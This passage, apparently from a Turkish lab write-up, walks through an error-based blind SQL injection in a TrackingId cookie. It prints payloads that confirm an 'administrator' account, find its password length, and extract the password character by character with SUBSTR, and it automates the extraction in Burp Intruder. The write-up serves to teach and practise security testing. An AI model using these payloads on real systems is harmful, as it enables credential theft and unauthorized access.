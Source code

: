 Eğer hata kaybolursa, bu yöntemin **boolean-based blind SQL Injection** için kullanılabileceğini gösterir.

![Pasted image 20250330203744.png](/img/user/resimler/Pasted%20image%2020250330203744.png)


5- **Kullanıcı Adını Test Etme**

Şimdi, belirli bir **username**'in var olup olmadığını test etmek için sorgu oluşturulur:

```
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

Eğer hata alınıyorsa, **administrator** kullanıcısının var olduğu anlamına gelir.

![Pasted image 20250330203851.png](/img/user/resimler/Pasted%20image%2020250330203851.png)


6- **Şifre Uzunluğunu Belirleme**

Şifre uzunluğunu bulmak için adım adım test yapılır:

```
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

![Pasted image 20250330204610.png](/img/user/resimler/Pasted%20image%2020250330204610.png)

![Pasted image 20250330204623.png](/img/user/resimler/Pasted%20image%2020250330204623.png)

Eğer hata alınıyorsa, şifre en az **2 karakter** uzunluğundadır. Bu işlem, **LENGTH(password)>2**, **LENGTH(password)>3** şeklinde devam ettirilerek şifrenin tam uzunluğu belirlenir. Bu senaryoda, şifre uzunluğu **20 karakter** olarak bulunur.


7- **Karakterleri Teker Teker Çözme**

Şifrenin her karakterini belirlemek için **SUBSTR()** fonksiyonu kullanılır:

```
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

Burada:
* **SUBSTR(password,1,1)** → Şifrenin 1. karakterini alır.
* Eğer 1. karakter **'a'** ise, **TO_CHAR(1/0)** çalışır ve hata alınır.

Bu işlem, **a-z ve 0-9** arasında denenerek tekrarlanır. **Burp Intruder** kullanılarak otomatikleştirilir:

**Payload pozisyonu** işaretlenir:

```
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

